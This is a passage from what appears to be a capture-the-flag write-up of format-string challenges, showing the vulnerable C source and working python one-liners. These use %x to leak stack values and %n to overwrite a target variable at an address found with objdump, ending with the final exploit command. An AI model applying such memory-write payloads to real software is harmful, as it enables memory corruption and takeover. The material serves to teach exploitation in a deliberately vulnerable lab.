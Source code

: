 ```
  vuln();
}
```
In this challenge we have to overwrite the target variable to have the value of 64.

As before, we first find the offset of %x's needed.
```
python -c "print 'AAAAAAAA' + '%x.' * 10" | ./format2
AAAAAAAA200.f7faa580.f7fd853c.41414141.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.
```
Now with objdump we can find the variable "target".
```
objdump -t format2 | grep target
080496e4 g     O .bss	00000004              target
```
Finally, with some trial and error, we can input the memory address and write to it, changing the amount of bytes we send until we reach the right point.
```
python -c "print 'AAAA\xe4\x96\x04\x08' + '%x' + '%x' * 3 + '%n'" | ./format2
AAAA200f7faa580f7fd853c41414141
target is 35 :(

python -c "print 'AAAA\xe4\x96\x04\x08' + '%10x' + '%x' * 3 + '%n'" | ./format2
AAAA       200f7faa580f7fd853c41414141
target is 42 :(
```

### Exploit Code
```
python -c "print 'AAAA\xe4\x96\x04\x08' + '%32x' + '%x' * 3 + '%n'" | ./format2
```

## Format 3
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
```